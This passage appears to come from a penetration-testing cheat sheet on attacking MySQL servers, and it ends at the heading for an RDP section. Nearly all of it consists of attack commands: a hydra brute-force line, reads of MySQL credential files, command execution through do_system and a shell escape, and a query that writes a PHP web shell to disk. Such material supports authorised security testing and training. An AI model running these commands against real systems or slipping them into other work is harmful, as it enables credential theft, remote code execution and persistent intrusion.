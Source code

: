### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

### Extracting MySQL credentials from files

```
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Connect

```
# Local
mysql -u <USER>
mysql -u <USER> -p

# Remote
mysql -h <IP> -u <USER>
```

### MySQL commands

```
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
```

### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
```

------

## RDP - 3389
